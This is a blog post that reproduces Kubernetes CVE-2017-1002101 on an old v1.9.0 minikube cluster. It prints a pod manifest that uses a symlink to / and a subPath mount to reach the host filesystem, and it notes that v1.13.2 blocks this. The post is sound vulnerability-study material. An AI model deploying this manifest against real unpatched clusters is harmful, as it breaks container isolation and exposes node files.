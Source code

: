 +++
author = "Suraj Deshmukh"
title = "Recreate Kubernetes CVE-2017-1002101"
description = "Subpath Volume Mount could give you access to node"
date = "2019-01-14T01:00:51+05:30"
categories = ["kubernetes", "security", "notes"]
tags = ["kubernetes", "cve", "security"]
+++

A volume mount CVE was discovered in Kubernetes 1.9 and older which allowed access to node file system using `emptyDir` volume mount using subpath. The official description goes as follows:

>In Kubernetes versions `1.3.x`, `1.4.x`, `1.5.x`, `1.6.x` and prior to versions `1.7.14`, `1.8.9` and `1.9.4` containers using subpath volume mounts with any volume type (including non-privileged pods, subject to file permissions) can access files/directories outside of the volume, including the host's filesystem.

Source: [https://nvd.nist.gov/vuln/detail/CVE-2017-1002101](https://nvd.nist.gov/vuln/detail/CVE-2017-1002101)


To understand the problem and re-create the CVE follow the steps in following video:

<center>
<iframe width="950" height="485" src="https://www.youtube.com/embed/o8hQ4WFd75U"
frameborder="0" style="border:1px solid #CCC; border-width:1px;
margin-bottom:5px; max-width: 100%;" allowfullscreen></iframe>
<div style="margin-bottom:5px"> <strong>
<a href="//youtu.be/o8hQ4WFd75U"
title="How Symlinks Pwned Kubernetes (And How We Fixed It) - Michelle Au, Google & Jan Šafránek, Red Hat"
target="_blank">How Symlinks Pwned Kubernetes (And How We Fixed It) - Michelle Au, Google & Jan Šafránek, Red Hat</a>
</strong><strong><a target="_blank"
href=""></a></strong>
</div>
</center>

To create an older Kubernetes setup run following. You need to start older cluster on minikube(version of minikube does not matter) and need older kubectl for compatiblility reasons.

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.9.0/bin/linux/amd64/kubectl
chmod +x ./kubectl

minikube start \
--vm-driver kvm2 \
--kubernetes-version v1.9.0 \
--cpus 3 --memory 3000  \
--extra-config=apiserver.authorization-mode=RBAC
```

Verify the cluster version:

```bash
$ ./kubectl get nodes
NAME       STATUS    ROLES     AGE       VERSION
minikube   Ready     master    9m        v1.9.0
```

This is the pod manifest used in the video:

```yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: testpod
  name: testpod
spec:
  initContainers:
  - name: init
    image: busybox
    command: ["ln", "-s", "/", "/mnt/my-volume/data1"]
    volumeMounts:
    - name: my-volume
      mountPath: /mnt/my-volume
  containers:
  - image: busybox
    imagePullPolicy: IfNotPresent
    name: testpod
    command: ["sleep", "999999"]
    volumeMounts:
    - name: my-volume
      mountPath: /mnt/my-volume
    - name: my-volume
      mountPath: /mnt/data
      subPath: data1
  volumes:
  - name: my-volume
    emptyDir:
      medium: Memory
  dnsPolicy: ClusterFirst
```

With above setup I could re-create the CVE successfully.

When tried on the `v1.13.2` cluster the pod goes into `Pending` phase with status being `CreateContainerConfigError` and also lists the message as `failed to prepare subPath for volumeMount "my-volume" of container "testpod"`.

```bash
$ kubectl get pods -o wide
NAME      READY   STATUS                       RESTARTS   AGE   IP          NODE   NOMINATED NODE   READINESS GATES
testpod   0/1     CreateContainerConfigError   0          24m   10.38.0.2   w1     <none>           <none>
```
